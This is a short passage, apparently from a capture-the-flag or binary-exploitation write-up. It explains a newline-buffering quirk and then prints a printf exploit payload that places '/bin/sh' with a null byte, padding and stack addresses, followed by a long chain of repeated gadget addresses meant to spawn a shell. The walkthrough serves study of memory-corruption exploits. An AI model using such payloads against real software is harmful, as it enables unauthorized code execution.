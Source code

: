 ![alt text](image-9.png)

Well yes, but actually no. It'll actually buffer the newline into our input and mess up the payload. We can account for that by splitting our input where junk resides and remove one byte of that junk, so that when we press `enter`, a new line will be placed into the input, but instead of a junk byte which we do not care about anyway.

Let's remove the closest B to the end and paste:

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x00\x00\x00\x00AAAABBB
```

![alt text](image-10.png)
